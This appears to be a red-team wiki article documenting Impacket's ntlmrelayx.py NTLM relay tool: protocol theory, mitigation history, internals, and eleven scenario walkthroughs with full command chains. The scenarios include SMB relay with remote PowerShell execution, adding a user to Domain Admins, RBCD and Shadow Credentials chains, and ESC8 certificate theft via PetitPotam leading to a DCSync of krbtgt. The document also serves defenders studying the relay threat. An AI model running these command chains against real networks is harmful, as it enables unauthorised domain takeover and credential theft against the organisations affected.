

title: "ntlmrelayx.py"
script: "examples/ntlmrelayx.py"
category: "Relay Attacks"
status: "Published"
protocols:
  - SMB
  - LDAP
  - LDAPS
  - HTTP
  - HTTPS
  - MSSQL
  - IMAP
  - IMAPS
  - SMTP
  - RPC
  - WinRM
  - NTLM
ms_specs:
  - MS-NLMP
  - MS-SMB2
  - MS-ADTS
  - MS-WSTIM
  - MS-EFSR
  - MS-RPRN
  - MS-DFSNM
mitre_techniques:
  - T1557.001
  - T1187
  - T1550.002
  - T1098
  - T1134.005
  - T1649
  - T1557
auth_types:
  - relayed_ntlm
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/relay_attacks
  - status/published
  - protocol/ntlm
  - protocol/smb
  - protocol/ldap
  - protocol/http
  - protocol/mssql
  - authentication/ntlm
  - technique/ntlm_relay
  - technique/rbcd_automation
  - technique/shadow_credentials
  - technique/adcs_esc8
  - technique/coerced_authentication
  - technique/smb_relay
  - technique/ldap_relay
  - mitre/T1557/001
  - mitre/T1187
  - mitre/T1550/002
  - mitre/T1098
  - mitre/T1134/005
  - mitre/T1649
aliases:
  - ntlmrelayx
  - impacket-ntlmrelayx
  - ntlm_relay
  - ntlmrelay


# ntlmrelayx.py

> **One line summary:** The most versatile NTLM relay framework in existence, accepting incoming NTLM authentications across six server protocols (SMB, HTTP, WCF, RAW, RPC, WinRM) and relaying them to ten target protocols (SMB, LDAP, LDAPS, HTTPS, MSSQL, IMAP, IMAPS, SMTP, RPC, WinRM), with automated workflows for post relay exploitation including RBCD chain, Shadow Credentials attack, ADCS ESC8, user escalation to Domain Admins, SOCKS proxy mode, and the CVE-2019-1040 MIC removal and CVE-2025-33073 sign/seal removal exploits.

| Field | Value |
|:---|:---|
| Script | `examples/ntlmrelayx.py` |
| Category | Relay Attacks |
| Status | Published |
| Primary protocols | NTLM, SMB, LDAP, LDAPS, HTTP, HTTPS, MSSQL, IMAP, SMTP, RPC, WinRM |
| Primary Microsoft specifications | `[MS-NLMP]`, `[MS-SMB2]`, `[MS-ADTS]`, `[MS-WSTIM]`, `[MS-EFSR]`, `[MS-RPRN]` |
| MITRE ATT&CK techniques | T1557.001 LLMNR/NBT-NS Poisoning and SMB Relay, T1187 Forced Authentication, T1550.002 Pass the Hash, T1098 Account Manipulation, T1134.005 SID History Injection, T1649 Steal or Forge Authentication Certificates, T1557 Adversary in the Middle |
| Authentication types supported | Relayed NTLM (primary), plus password, NT hash, AES key, Kerberos ccache for management operations |
| First appearance in Impacket | 2018 (as a successor to `smbrelayx.py` with vastly expanded scope) |
| Original authors | Dirk-jan Mollema (`@_dirkjan`) and Alberto Solino (`@agsolino`), with dozens of subsequent contributors including `@ExAndroidDev` (ADCS), `@nodauf` (Shadow Credentials), and `@ShutdownRepo` (delegate-access expansions) |


## Prerequisites

This is the most cross referenced article in the wiki. It builds on many prior articles:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](../05_smb_tools/smbclient.md) for SMB session foundations and the four authentication modes.
- [`rpcdump.py`](../01_recon_and_enumeration/rpcdump.md) for DCE/RPC and interface UUIDs.
- [`samrdump.py`](../01_recon_and_enumeration/samrdump.md) for SAMR context.
- [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) for the delegation taxonomy including RBCD.
- [`getST.py`](../02_kerberos_attacks/getST.md) for S4U exploitation that consumes RBCD configurations.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) for credential extraction that this tool automates after SMB relay.
- [`addcomputer.py`](../07_ad_modification/addcomputer.md) for the computer account creation that `--delegate-access` automates.
- [`rbcd.py`](../07_ad_modification/rbcd.md) for the `msDS-AllowedToActOnBehalfOfOtherIdentity` write that `--delegate-access` automates.
- [`psexec.py`](../04_remote_execution/psexec.md) for the SMB execution follow up after relay.

This article deliberately does not duplicate the foundational concepts covered in those articles. Read them first if you have not already; this one assumes them.


## What it does

`ntlmrelayx.py` runs one or more network listener servers that accept incoming NTLM authentications and relays the authentication attempts to configured targets. When a relay succeeds, the tool then performs configured post authentication actions as the relayed user on the target service.

The tool has three orthogonal dimensions:

**Dimension 1: what triggers the authentication (coercion).** `ntlmrelayx.py` passively listens but does not force authentications to occur. A separate tool or technique causes a victim to authenticate:

- **LLMNR, NBT-NS, mDNS poisoning** via Responder or equivalents. Users typing mistyped hostnames trigger authentication to the attacker.
- **WPAD attacks** via `ntlmrelayx.py`'s own HTTP server plus name resolution poisoning. Browsers asking for the WPAD proxy configuration trigger HTTP NTLM authentication.
- **IPv6 DHCPv6 spoofing** via mitm6. The tool provides itself as the IPv6 DNS server, redirecting name resolution to itself.
- **Authentication coercion** via PetitPotam (MS-EFSR), PrinterBug/SpoolSample (MS-RPRN), DFSCoerce (MS-DFSNM), or the consolidated Coercer tool. These force specific target computers to authenticate to the attacker over SMB or HTTP.
- **Opportunistic interception** of any other protocol NTLM authentication that reaches the attacker's machine for any reason.

**Dimension 2: where the authentication goes (the relay target).** Once caught, the authentication is relayed to one of the supported target protocols:

- SMB (for lateral movement, credential extraction, command execution)
- LDAP and LDAPS (for domain enumeration, ACL modification, RBCD configuration, Shadow Credentials, user escalation)
- HTTP and HTTPS (for ADCS ESC8 certificate issuance, Exchange Web Services, various web authentication targets)
- MSSQL (for database access)
- IMAP and IMAPS (for mailbox access)
- SMTP (for sending email as the relayed user)
- RPC (for WMI and remote service manipulation)
- WinRM (for PowerShell remoting)

**Dimension 3: what happens after the relay succeeds.** The tool automates specific post relay actions based on flags:

- **SMB default:** dump credentials via in memory `secretsdump.py` equivalent, or execute a supplied command.
- **LDAP `--escalate-user`:** add the specified user to Domain Admins.
- **LDAPS `--delegate-access`:** execute the full RBCD attack chain (create computer account, write `msDS-AllowedToActOnBehalfOfOtherIdentity`).
- **LDAPS `--shadow-credentials`:** write `msDS-KeyCredentialLink` on the target for PKINIT based impersonation.
- **HTTPS `--adcs`:** request a certificate from an AD CS web enrollment endpoint (ESC8).
- **`-socks` mode:** keep the authenticated sessions alive and expose them via a SOCKS proxy for manual exploitation with arbitrary tools.

The combination of these three dimensions gives `ntlmrelayx.py` an enormous attack surface. A typical engagement uses two or three of these paths in parallel to maximize success.


## Why it exists

NTLM relay is one of the oldest attacks against Windows networks. The original NTLM reflection attack was demonstrated publicly in 2001 by Sir Dystic (Josh Buchbinder) of CULT OF THE DEAD COW with a tool called SMBRelay. The technique exploited a fundamental design gap in NTLM: the authentication message does not bind to the target service it is destined for, so an attacker who intercepts authentication can forward it to a different service and be authenticated as the original user.

Microsoft has spent over two decades patching and hardening around the core problem. The landmark changes:

- **2008:** SMB signing default change (still not mandatory).
- **2008:** NTLM reflection attacks to the same host fixed (MS08-068).
- **2017:** LDAP signing and channel binding made available (though not enabled by default until 2020+).
- **2019:** Microsoft's December patches added the MIC (Message Integrity Check) in NTLM to prevent tampering; CVE-2019-1040 revealed the MIC could be dropped entirely.
- **2021:** PetitPotam exploits published. Microsoft patched the direct EFSR vulnerability but the underlying relay attack class remained.
- **2022+:** Channel binding and Extended Protection for Authentication enforcement for LDAPS and AD CS gradually becoming default.
- **2024-2025:** Windows Server 2025 enables EPA by default, disables unencrypted ADCS Web Enrollment. CVE-2025-33073 reveals yet another NTLM relay technique (sign/seal flag tampering).

Despite all of this, most production Active Directory environments in 2026 remain vulnerable to at least one NTLM relay attack path because hardening these defenses requires touching every endpoint and every authentication flow, and the backward compatibility concerns are significant.

`ntlmrelayx.py` was originally built by Dirk-jan Mollema as the successor to `smbrelayx.py`, which only handled SMB to SMB relay. The expansion to cover LDAP, HTTP, ADCS, Shadow Credentials, and the dozens of other capabilities happened incrementally across hundreds of commits from many contributors. The result is the most complete NTLM relay tool in any language, usable from any Linux attacker host, and the de facto standard that defensive teams must assume when modeling the NTLM relay threat.

The tool exists because NTLM is deprecated but not dead. Microsoft has announced NTLM deprecation but has not set a definitive removal date, and even announcement of removal does not solve the backward compatibility problem for the millions of enterprise environments still depending on it. `ntlmrelayx.py` is the attacker's expression of the fact that NTLM's architectural gaps are still exploitable.


## The protocol theory

This section is long because the tool touches many protocols and many attack concepts. It is organized by concept rather than by flag.

### NTLM challenge response

NTLM authentication uses a challenge response handshake between three parties: the client, the server, and (optionally) a domain controller acting as a ticket authority. The simplified flow:

1. **Client → Server:** `NEGOTIATE_MESSAGE` (type 1). The client advertises supported NTLM features.
2. **Server → Client:** `CHALLENGE_MESSAGE` (type 2). The server provides an 8 byte random challenge.
3. **Client → Server:** `AUTHENTICATE_MESSAGE` (type 3). The client computes a response to the challenge using its NT hash, proving possession without revealing the hash.
4. **Server → DC:** NETLOGON `NetrLogonSamLogonEx` call. The server asks the DC to verify the response.
5. **DC → Server:** Validation result plus a session key.
6. **Server → Client:** Authentication success (or failure).

The critical architectural gap: the CHALLENGE MESSAGE in step 2 is the only value the client's response in step 3 depends on. **The response does not bind to the server's identity or to the service being accessed.** An attacker who interposes between the client and the server can:

1. Receive the client's NEGOTIATE MESSAGE.
2. Connect to a different target server and forward the NEGOTIATE MESSAGE there.
3. Receive the target server's CHALLENGE MESSAGE.
4. Return that CHALLENGE MESSAGE to the client.
5. Receive the client's AUTHENTICATE MESSAGE.
6. Forward it to the target server.
7. Be authenticated to the target server as the client.

This is NTLM relay. Every NTLM relay attack, regardless of transport protocol, reduces to this pattern. The differences are in what causes the client to authenticate to the attacker in the first place (coercion) and what the attacker does with the authenticated session on the target (post relay actions).

### Why relay works: the authenticity gap

NTLM's design predates modern understanding of channel binding. Cryptographic protocols designed after roughly 2005 universally bind the authentication to the transport channel (e.g., TLS channel binding) and to the target service (e.g., Kerberos SPN binding). NTLM does neither by default.

Microsoft's mitigations:

- **SMB signing:** forces the NTLM session key to be used to sign SMB traffic, which prevents relay because the attacker does not know the session key. **Not mandatory** by default on Windows Server until 2025.
- **LDAP signing and sealing:** forces the same for LDAP. Not default until 2020+.
- **Extended Protection for Authentication (EPA):** for TLS based protocols, binds the NTLM authentication to the TLS channel's server certificate so the authentication cannot be replayed to a different TLS endpoint. Not default until 2022+.
- **MIC (Message Integrity Check):** a signed hash over the three NTLM messages that prevents message tampering. Added in 2019. CVE-2019-1040 showed the MIC could simply be omitted by an attacker and older servers would accept it.
- **Channel binding:** a more general term for binding the authentication to the transport channel. Related to but broader than EPA.

Each mitigation protects a specific scenario but none is universal. Every one has backward compatibility exceptions and rollout challenges.

### The ten target protocols

Each target protocol has its own post relay capabilities and its own hardening concerns.

**SMB.** The original relay target. A successful SMB relay gives the attacker SMB access to the target as the relayed user. If that user is a local administrator, the attacker can extract credentials (the default `secretsdump.py` equivalent) or execute commands (via `-c` or `-e`). SMB signing is the primary mitigation and is mandatory on DCs by default and on member servers from Windows Server 2025.

**LDAP and LDAPS.** Relaying to LDAP gives the attacker the ability to query and modify the directory as the relayed user. The attack actions depend on what the user can write:

- Any authenticated user can add themselves to groups they already have WriteProperty on.
- Computer accounts can modify their own attributes (including `msDS-AllowedToActOnBehalfOfOtherIdentity` for RBCD and `msDS-KeyCredentialLink` for Shadow Credentials).
- Users with WriteDacl on objects can grant themselves arbitrary rights.
- Domain Admin relay gives full directory write.

LDAP signing and LDAPS channel binding are the mitigations. Both are default from Windows Server 2022 23H2 and later.

**HTTP and HTTPS.** Several HTTP services accept NTLM authentication:

- AD CS Web Enrollment (`/certsrv/certfnsh.asp`) issues certificates on behalf of the authenticated user. This is the ESC8 target.
- Exchange Web Services (`/EWS/Exchange.asmx`) gives mailbox access.
- Outlook Web Access (`/owa`) and ActiveSync give similar access.
- RD Gateway (`/Rpc/RpcProxy.dll`) gives RDP access.
- SharePoint and various application endpoints accept NTLM.

HTTPS EPA is the primary mitigation. Default for AD CS from Windows Server 2025.

**MSSQL.** Relay to SQL Server gives the attacker database access as the relayed user. With `xp_cmdshell` (if enabled) this escalates to command execution.

**IMAP, IMAPS, SMTP.** Mailbox access protocols. Relayed authentication gives mail access as the user.

**RPC.** Generic MSRPC relay target. Less commonly used; occasionally useful for specific service manipulation.

**WinRM.** Windows Remote Management. Relay to WinRM gives PowerShell remoting access as the relayed user. A relatively new addition; useful when WinRM is enabled and SMB is not.

### The CVE-2019-1040 MIC removal

The MIC was added in 2019 to prevent tampering of NTLM messages. CVE-2019-1040 revealed that the MIC could be omitted entirely without causing authentication failure on unpatched servers. The `--remove-mic` flag in `ntlmrelayx.py` implements the exploitation: strip the MIC from the forwarded message, bypassing the tamper protection.

Even in 2026, environments with unpatched domain controllers (particularly Server 2012 R2 and older) are still vulnerable. The flag is on by default in some operational contexts.

### CVE-2025-33073 sign/seal removal

A newer vulnerability disclosed in 2025. The `--remove-sign-seal` flag manipulates the NTLM negotiate flags to drop the SIGN and SEAL bits from the negotiation. Against vulnerable servers this disables the signing and sealing protections, making previously protected sessions relayable again.

This is a rapidly evolving area. Check current Microsoft advisories for the patch status.

### The coercion side

`ntlmrelayx.py` itself does not coerce authentication. It listens. Coercion is performed by separate tools:

- **Responder.** The most common. Poisons LLMNR, NBT-NS, and mDNS. Catches mistyped hostnames and server discovery attempts.
- **mitm6.** Exploits Windows' default preference for IPv6. Responds to IPv6 DHCPv6 and DNS requests, redirecting victim traffic to the attacker.
- **PetitPotam.** Exploits `MS-EFSR` (Encrypting File System Remote Protocol). The `EfsRpcOpenFileRaw` function coerces the target to authenticate to any UNC path.
- **PrinterBug (SpoolSample).** Exploits `MS-RPRN` (Print System Remote Protocol). The `RpcRemoteFindFirstPrinterChangeNotificationEx` function coerces the target Print Spooler to authenticate to any host.
- **DFSCoerce.** Exploits `MS-DFSNM` (Distributed File System Namespace Management Protocol). Similar coercion primitive.
- **Coercer.** A consolidation tool by `@p0dalirius` that combines many known coercion methods in one interface.

All of these produce an incoming NTLM authentication to the attacker's host, which is then caught and relayed by `ntlmrelayx.py`.

### Computer accounts vs user accounts in relay

A critical distinction. When coercion techniques (PetitPotam, PrinterBug) trigger authentication from a service like Print Spooler or EFSR, the authentication comes from the target's **computer account** (e.g., `WS01$`), not from any user.

Computer accounts have specific properties that matter for relay:

- They have SPNs, which enables S4U2Self workflows (see [`getST.py`](../02_kerberos_attacks/getST.md)).
- They have write access to their own `msDS-AllowedToActOnBehalfOfOtherIdentity` (when patched versions permit) and `msDS-KeyCredentialLink` attributes. This enables RBCD and Shadow Credentials.
- They typically cannot authenticate to most user oriented services (no SMB sessions to random shares), limiting SMB relay viability.
- They are typically members of `Domain Computers`, not `Domain Users`, affecting group membership assumptions.

Relays of computer accounts to LDAP are the foundation of modern RBCD and Shadow Credentials attacks. Relays of user accounts to SMB remain the foundation of classic lateral movement.


## How the tool works internally

The script is large and architecturally complex. The high level structure:

1. **Argument parsing.** The most extensive argument parser in Impacket. Dozens of flags covering target specification, server enablement, relay configuration, and post relay actions.

2. **Target resolution.** Targets come from `-t <url>` (single), `-tf <file>` (list), or are dynamically added to the target watchlist when new hosts are discovered. Target URLs include the protocol scheme (e.g., `smb://host`, `ldaps://dc`, `https://ca/certsrv`).

3. **Server startup.** The tool starts multiple listener servers in separate threads:
    - SMB server on port 445 (unless `--no-smb-server`).
    - HTTP server on port 80 (unless `--no-http-server`).
    - WCF server on various ports (Windows Communication Foundation).
    - RAW server on port 6666 (for proxy authentication attacks).
    - RPC server on named pipes (unless `--no-rpc-server`).
    - WinRM server on port 5985 (unless `--no-winrm-server`).

4. **Incoming authentication handling.** When a client connects to a server:
    - The NTLM negotiation begins.
    - The server selects a target from the configured list.
    - A parallel connection to the target is established.
    - NTLM messages are relayed between client and target.
    - If `--remove-mic` or `--remove-sign-seal` is set, the forwarded messages are modified accordingly.

5. **Relay success path.** On successful authentication:
    - The authenticated session to the target is handed off to a `ProtocolAttack` class specific to the target protocol.
    - The class performs the configured post authentication action (dump SAM, create computer, write attribute, request certificate, etc.).
    - Results are logged and written to the loot directory.

6. **SOCKS mode.** When `-socks` is set, successful authentications are kept alive and added to a SOCKS proxy pool. External tools can then connect through the SOCKS proxy and use the authenticated sessions as if they had captured credentials.

7. **Target exhaustion handling.** When a target is successfully exploited, it is removed from the active target list to prevent redundant attacks. `-ra` (remove authenticated) controls this behavior.

8. **Protocol clients and attacks.** Each target protocol has a corresponding `ProtocolClient` class (handles the relay) and `ProtocolAttack` class (handles the post relay actions). The file layout in the Impacket source reflects this:
    - `impacket/examples/ntlmrelayx/clients/` for protocol client implementations.
    - `impacket/examples/ntlmrelayx/attacks/` for post relay attacks.
    - `impacket/examples/ntlmrelayx/servers/` for incoming listener implementations.

9. **Extensive logging.** Every successful relay produces log entries with the relay source, the relay target, the authenticated principal, and the post relay actions taken. The loot directory holds dumped credentials, certificates, and other extracted data.


## Authentication options

`ntlmrelayx.py`'s primary authentication path is **relayed NTLM**. The tool does not directly authenticate using supplied credentials for the relay itself; the credentials come from the victim that gets coerced.

However, some operations within the tool do require direct authentication:

- `--escalate-user` when used with an existing credential for the authenticating user.
- Some relay attacks that involve setting up the target service before the relay (rare).

When direct authentication is needed, the standard Impacket flags apply: `-hashes`, `-aesKey`, `-k`, `-no-pass`.

### What credentials get caught

When a relay succeeds, the attacker does not directly obtain the victim's password or NT hash. What happens is the attacker obtains an **authenticated session** on the target. The session is usable until it expires, but the underlying credential is not revealed.

Exception: NTLMv1 can be brute forced offline to reveal the NT hash if captured. NTLMv2 cannot reasonably be brute forced.

To obtain the credential itself (NT hash or cleartext), the attacker must combine the relay with separate techniques: Shadow Credentials plus `PKINITtools`'s `gettgtpkinit.py` plus `getnthash.py` can recover the NT hash of a computer account from a Shadow Credentials relay.

### Minimum required privileges

None. The fundamental selling point of `ntlmrelayx.py` is that it works without any pre existing credential. The attacker just needs:

- Network connectivity to the victim and to the relay target.
- A coercion method that works against the environment.
- The relay target to accept the relayed authentication (which means it must not require signing or binding that blocks the relay).


## Practical usage

Organized by scenario rather than by flag.

### Scenario 1: Classic SMB to SMB relay with Responder

The original NTLM relay scenario. Responder poisons LLMNR/NBT-NS and captures authentication attempts from users making typos. `ntlmrelayx.py` relays those to SMB on target hosts that do not require signing.

```bash
# Terminal 1: Responder (the coercion tool)
responder -I eth0 -rdw

# Terminal 2: ntlmrelayx with SMB targets
ntlmrelayx.py -tf smb_targets.txt -smb2support
```

The `smb_targets.txt` file contains one target per line (`smb://10.0.0.50`, etc.). On each successful relay to a host where the relayed user is admin, the tool runs the `secretsdump.py` equivalent and writes the results to the loot directory.

Responder should be configured to disable its SMB and HTTP servers to avoid conflict with `ntlmrelayx.py`:

```bash
# In /etc/responder/Responder.conf:
# SMB = Off
# HTTP = Off
```

### Scenario 2: SMB relay with command execution

```bash
ntlmrelayx.py -tf smb_targets.txt -smb2support \
  -c 'powershell -e <base64_payload>'
```

The `-c` flag executes the specified command on the target via the same PsExec style mechanism as [`psexec.py`](../04_remote_execution/psexec.md). The command runs as the relayed user (typically a local administrator, because non admin relays produce uninteresting SMB sessions).

### Scenario 3: SMB relay with SOCKS proxy

```bash
ntlmrelayx.py -tf smb_targets.txt -smb2support -socks
```

The `-socks` flag keeps the authenticated sessions alive and exposes them through a SOCKS proxy on port 1080. The attacker can then use any SMB tool through `proxychains`:

```bash
# After relay succeeds:
proxychains smbclient.py -no-pass CORP.LOCAL/relayed_user@10.0.0.50
proxychains secretsdump.py -no-pass CORP.LOCAL/relayed_user@10.0.0.50
```

SOCKS mode is operationally useful because the attacker can perform multiple actions against each relayed session rather than being limited to a single automated action per relay.

### Scenario 4: LDAPS relay with --escalate-user

```bash
ntlmrelayx.py -t ldaps://dc01.corp.local --escalate-user hulk \
  -smb2support
```

When the relayed authentication comes from a Domain Admin (or from anyone with `WriteMembers` on `Domain Admins`), this adds the user `hulk` to the Domain Admins group. Extremely dangerous and extremely effective when it succeeds.

The attack is opportunistic: it waits for a suitable authentication to arrive. Pairing with a coerced Domain Admin authentication dramatically accelerates the attack.

### Scenario 5: LDAPS relay with --delegate-access (the RBCD automation)

```bash
ntlmrelayx.py -t ldaps://dc01.corp.local --delegate-access \
  -wh attacker-wpad -smb2support
```

When a computer account authentication is caught and relayed, `--delegate-access` automates the entire RBCD chain:

1. Create a new computer account via LDAP (the equivalent of [`addcomputer.py`](../07_ad_modification/addcomputer.md)).
2. Write `msDS-AllowedToActOnBehalfOfOtherIdentity` on the original authenticating computer, granting the new account delegation rights (the equivalent of [`rbcd.py`](../07_ad_modification/rbcd.md)).
3. Print the new computer account's name and password.

The attacker then uses [`getST.py`](../02_kerberos_attacks/getST.md) to complete the chain:

```bash
# After ntlmrelayx.py prints the new computer account credentials:
getST.py -spn cifs/coerced-target.corp.local -impersonate Administrator \
  CORP.LOCAL/'NEWCOMP$':'password' -dc-ip 10.0.0.10

# Then use the ticket:
export KRB5CCNAME=Administrator@cifs_coerced-target.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass CORP.LOCAL/Administrator@coerced-target.corp.local
```

This is the modern workhorse lateral movement chain. The `-wh attacker-wpad` flag tells `ntlmrelayx.py` to serve a WPAD proxy configuration that triggers HTTP authentication from victim browsers (when paired with mitm6 or equivalent).

### Scenario 6: LDAPS relay with --shadow-credentials

```bash
ntlmrelayx.py -t ldaps://dc01.corp.local --shadow-credentials \
  --shadow-target 'TARGET$' -smb2support
```

Writes `msDS-KeyCredentialLink` on the specified target with an attacker generated public key. The attacker then uses PKINIT tools (`pkinittools`) to obtain a TGT as the target account:

```bash
# After shadow credentials written:
gettgtpkinit.py -cert-pfx TARGET.pfx -pfx-pass 'pfx_password' \
  CORP.LOCAL/'TARGET$' target.ccache

# Optionally recover the NT hash via UnPAC-the-hash:
getnthash.py -key <asrep_key> CORP.LOCAL/'TARGET$'

# Or use the TGT directly:
export KRB5CCNAME=target.ccache
secretsdump.py -k -no-pass CORP.LOCAL/'TARGET$'@target.corp.local
```

Shadow Credentials is often preferable to RBCD for persistence: the `msDS-KeyCredentialLink` entry remains valid as long as the corresponding private key is held, providing long term access that does not depend on the computer's current password.

### Scenario 7: HTTPS relay with --adcs (ESC8)

```bash
ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp --adcs \
  --template DomainController -smb2support
```

Relays incoming authentication to the AD CS Web Enrollment endpoint and requests a certificate using the specified template. The `DomainController` template is the highest value target because a certificate issued under it can be used to authenticate as the DC and subsequently to DCSync the entire domain.

The full ESC8 chain:

```bash
# Terminal 1: ntlmrelayx
ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp --adcs \
  --template DomainController

# Terminal 2: Coerce DC01's authentication via PetitPotam
python3 PetitPotam.py -u lowpriv -p password attacker.ip dc01.corp.local

# ntlmrelayx receives the DC01$ authentication and requests a certificate
# as DC01$ from the ADCS web enrollment endpoint.
# Save the resulting .pfx file.

# Terminal 3: Convert the certificate to a TGT
gettgtpkinit.py -cert-pfx DC01.pfx -pfx-pass '' \
  CORP.LOCAL/'DC01$' dc01.ccache

# Use the TGT to DCSync
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass -just-dc-user krbtgt \
  CORP.LOCAL/'DC01$'@dc01.corp.local
```

This is one of the most impactful attack chains in modern Active Directory: from unauthenticated network access to `krbtgt` compromise in five commands, exploiting default AD CS Web Enrollment configuration.

### Scenario 8: mitm6 integration for IPv6 based coercion

```bash
# Terminal 1: mitm6 (the coercion tool)
mitm6 -i eth0 -d corp.local --ignore-nofqdn

# Terminal 2: ntlmrelayx with LDAPS relay and delegate-access
ntlmrelayx.py -6 -t ldaps://dc01.corp.local --delegate-access \
  -wh attacker-wpad -smb2support
```

mitm6 poisons IPv6 DNS for victim machines, redirecting their DNS queries to the attacker. The attacker serves a WPAD configuration that triggers HTTP NTLM authentication. `ntlmrelayx.py` catches those authentications and relays them to LDAPS for the RBCD chain.

The `-6` flag in `ntlmrelayx.py` enables IPv6 listener support. The `-wh attacker-wpad` flag sets the WPAD hostname that mitm6 will resolve to the attacker.

### Scenario 9: PetitPotam coercion with ADCS relay

Full walkthrough:

```bash
# Terminal 1: ntlmrelayx with ADCS ESC8 configured
ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp --adcs \
  --template DomainController -smb2support

# Terminal 2: Trigger the coercion against the DC
python3 PetitPotam.py -u anonymous -p '' \
  attacker.ip dc01.corp.local
# Or, for environments patched against anonymous PetitPotam:
python3 PetitPotam.py -u lowpriv -p password \
  attacker.ip dc01.corp.local
```

Modern Windows has patched the anonymous PetitPotam variant (CVE-2021-36942), but the authenticated variant still works with any domain credential.

### Scenario 10: Removing MIC for CVE-2019-1040

```bash
ntlmrelayx.py --remove-mic -tf smb_targets.txt -smb2support
```

Against unpatched environments, `--remove-mic` removes the Message Integrity Check from relayed NTLM messages, bypassing the 2019 MIC based mitigation. Rarely relevant in 2026 but useful for older environments.

### Scenario 11: CVE-2025-33073 sign/seal removal

```bash
ntlmrelayx.py --remove-sign-seal -t ldap://dc01.corp.local -smb2support
```

The newer 2025 vulnerability. Strips the SIGN and SEAL negotiate flags from the relayed NTLM message, bypassing signing and sealing requirements on vulnerable servers. Check current patch status before relying on this.

### Key flags

Organized by category.

**Target specification:**

| Flag | Meaning |
|:---|:---|
| `-t <url>` | Single target URL (e.g., `smb://host`, `ldaps://dc`). |
| `-tf <file>` | File with one target per line. |
| `-w` | Watch for new targets (auto add based on observed traffic). |
| `-ra` | Remove authenticated targets from the list. |

**Server control:**

| Flag | Meaning |
|:---|:---|
| `--no-smb-server` | Disable SMB listener. |
| `--no-http-server` | Disable HTTP listener. |
| `--no-wcf-server` | Disable WCF listener. |
| `--no-raw-server` | Disable RAW listener. |
| `--no-rpc-server` | Disable RPC listener. |
| `--no-winrm-server` | Disable WinRM listener. |
| `-6` | Enable IPv6 support. |
| `-wh <host>` | WPAD hostname for HTTP proxy auth attacks. |
| `--serve-image <path>` | Serve an image for HTML injection scenarios. |

**Relay manipulation:**

| Flag | Meaning |
|:---|:---|
| `--remove-mic` | Exploit CVE-2019-1040. |
| `--remove-sign-seal` | Exploit CVE-2025-33073. |

**SMB target actions:**

| Flag | Meaning |
|:---|:---|
| `-c <command>` | Execute the specified command on SMB targets. |
| `-e <file>` | Execute the specified file on SMB targets. |
| `--enum-local-admins` | Enumerate local admins via SAMR (pre Win 10 Anniversary only). |
| `-smb2support` | Enable SMB2 support. |

**LDAP target actions:**

| Flag | Meaning |
|:---|:---|
| `--escalate-user <user>` | Add the specified user to Domain Admins. |
| `--delegate-access` | Create computer + configure RBCD on relayed source. |
| `--shadow-credentials` | Write `msDS-KeyCredentialLink` on the shadow target. |
| `--shadow-target <name>` | Target for Shadow Credentials (usually a computer account). |
| `--no-acl` | Skip the ACL based escalation attempts. |
| `--no-dump` | Skip the directory dump. |
| `--no-da` | Skip the Domain Admins enumeration. |
| `--no-validate-privs` | Skip privilege validation. |

**ADCS target actions:**

| Flag | Meaning |
|:---|:---|
| `--adcs` | Enable AD CS web enrollment attack (ESC8). |
| `--template <n>` | Certificate template name. |
| `--altname <n>` | Alternative subject name. |

**MSSQL target actions:**

| Flag | Meaning |
|:---|:---|
| `--mssql-db <n>` | Database name for MSSQL relay. |

**Operational:**

| Flag | Meaning |
|:---|:---|
| `-socks` | Enable SOCKS proxy mode (keeps sessions alive). |
| `-l <dir>` | Loot directory (default `loot/`). |
| `-debug` | Debug output. |
| `-ts` | Timestamps in log output. |


## What it looks like on the wire

The wire pattern is complex because the tool operates on multiple protocols simultaneously. A representative scenario: SMB relay with ADCS attack.

### Incoming SMB authentication to the attacker

- TCP connection from victim to port 445 on the attacker.
- SMB session setup begins.
- NTLM NEGOTIATE_MESSAGE from victim.

### Parallel HTTPS connection to the target CA

- TCP connection from attacker to port 443 on CA01.
- TLS handshake.
- HTTP request to `/certsrv/certfnsh.asp`.
